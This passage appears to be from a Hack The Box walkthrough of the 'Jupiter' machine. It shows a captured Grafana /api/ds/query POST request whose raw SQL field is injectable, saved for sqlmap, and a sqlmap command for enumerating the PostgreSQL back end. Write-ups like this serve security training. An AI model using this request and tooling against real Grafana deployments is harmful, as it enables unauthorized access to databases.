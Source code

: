 Database dumping confirms the back-end database as a PostgreSQL database, but there isn't much of value to be found.  We learn about a Grafana user, but that leads nowhere productive I've found.  There's a massive table that takes forever to dump, but you can ignore it.

![04 - foothold with sql injection](04%20-%20foothold%20with%20sql%20injection.md)

Use BurpSuite to save the injectible request - this can be used with `sqlmap` in order to simplify back-end database enumeration.  You can use any filename - we chose `kiosk.req`.

```
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 18
x-plugin-id: postgres
Origin: http://kiosk.jupiter.htb
Content-Length: 391
Connection: close
Cookie: redirect_to=%2Fd%2FjMgFGfA4z%2Fmoons%3ForgId%3D1%26refresh%3D1d

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  count(parent) \nfrom \n  moons \nwhere \n  parent = 'Neptune';","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":940}],"range":{"from":"2023-06-16T12:18:36.424Z","to":"2023-06-16T18:18:36.424Z","raw":{"from":"now-6h","to":"now"}},"from":"1686917916424","to":"1686939516424"}
```

Confirm that the request is usable.

```bash
sqlmap -r kiosk.req # change filename as needed
```

![replace-me-11](img/replace-me-11.png)
